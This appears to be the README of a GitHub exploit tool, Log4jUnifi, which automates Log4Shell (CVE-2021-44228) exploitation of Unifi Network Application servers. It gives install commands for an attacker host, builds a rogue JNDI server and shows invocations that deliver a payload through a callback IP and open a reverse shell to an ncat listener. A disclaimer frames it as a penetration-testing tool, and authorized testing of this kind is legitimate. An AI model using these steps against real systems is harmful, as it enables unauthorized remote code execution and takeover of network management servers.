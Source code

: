 # Log4jUnifi
Exploiting CVE-2021-44228 in Unifi Network Application for remote code execution and more.

* [Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && pip3 install -r requirements.txt
```

From the root of the Log4jUnifi repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \
    && cd Log4jUnifi && docker build -t Log4jUnifi .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 Log4jUnifi \ 
    -u https://unifi.acme.com:8443 -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -u URL -i CALLBACK -p PORT

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Unifi Network Manager base URL
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -u https://unifi.acme.com:8443 -i 10.10.10.1 -p 4444
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.

